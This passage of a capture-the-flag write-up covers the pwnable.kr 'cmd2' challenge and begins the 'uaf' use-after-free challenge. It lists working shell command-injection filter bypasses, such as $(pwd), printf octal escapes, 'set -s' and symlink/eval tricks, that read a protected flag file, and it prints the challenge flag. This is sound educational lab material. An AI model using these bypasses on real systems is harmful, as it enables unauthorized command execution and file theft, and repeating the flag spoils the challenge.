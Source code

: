 ```mommy now I get what PATH environment is for :)```
  * It'll yield ```/``` if the user is at the root direcotry of the server
  * Use [dollar sign](https://stackoverflow.com/questions/17984958/what-does-it-mean-in-shell-when-we-put-a-command-inside-dollar-sign-and-parenthe) to make system function considered it as command instead of strings
  * Use ```'``` or ```\``` for escape, otherwise, it'll be converted to ```/``` and forbidden by the filter function
    * We only want it to be considered as ```/``` in the system function
  * ```/home/cmd2/cmd2 '$(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)fl*'```
  * ```/home/cmd2/cmd2 "\$(pwd)bin\$(pwd)cat \$(pwd)home\$(pwd)cmd2\$(pwd)fl*"```
* ```printf``` command
  * After the value printed by printf to the shell, it'll conidered it as command and try to execute it
  * Example
    ```sh
    pwnable% $(printf "%s %s\n" "ls" "-la")
    total 40
    drwxr-x---   5 root cmd2     4096 Oct 23  2016 .
    drwxr-xr-x 116 root root     4096 Nov 11 14:52 ..
    d---------   2 root root     4096 Jul 14  2015 .bash_history
    -r-xr-sr-x   1 root cmd2_pwn 8794 Dec 21  2015 cmd2
    -rw-r--r--   1 root root      586 Dec 21  2015 cmd2.c
    -r--r-----   1 root cmd2_pwn   30 Jul 14  2015 flag
    dr-xr-xr-x   2 root root     4096 Jul 22  2015 .irssi
    drwxr-xr-x   2 root root     4096 Oct 23  2016 .pwntools-cache
    ```
  * Special pattern
    * ```\\[OCTAL]``` -> ```ASCII(OCTAL)``` -> character
    * ```\\57``` -> ```/```
  * ```./cmd2 '$(printf \\57bin\\57cat) fla*'```
* Others
  * ```./cmd2 "read b < fl\ag; echo \$b"```
  * ```./cmd2 "command -p cat fla*"```
  * ```sh
    /home/cmd2/cmd2 'set -s'
    /bin/cat /home/cmd2/flag
    ```
  * ```sh
    cmd2@ubuntu:/tmp/sex$ ln -s -f /bin/cat no_command_execution_until_you_become_a_hacker
    cmd2@ubuntu:/tmp/sex$ ln -s -f /home/cmd2/flag flag
    cmd2@ubuntu:/tmp/sex$ ln -s -f /home/cmd2/cmd2 cmd2
    cmd2@ubuntu:/tmp/sex$ ./cmd2 "eval ''$echo $\PWD$\PAT\H fla\g'' "
    ```
### Flag
```FuN_w1th_5h3ll_v4riabl3s_haha```
### Reference
* https://github.com/victor-li/pwnable.kr-write-ups/blob/master/cmd2.md
* https://www.cnblogs.com/p4nda/p/7147552.html
* https://gist.github.com/dual5651/910a89eabcb471ab3a314ed52a82a5c7
* https://www.twblogs.net/a/5ee37508002b39a07dcce90b

## uaf
### Description
> Mommy, what is Use After Free bug?
> 
> ssh uaf@pwnable.kr -p2222 (pw:guest)
### Overview
* [C++ class assembly layout](https://www.blackhat.com/presentations/bh-dc-07/Sabanal_Yason/Paper/bh-dc-07-Sabanal_Yason-WP.pdf)
  * Human
    ```
    class Human:
    +---
    | {vfptr}
```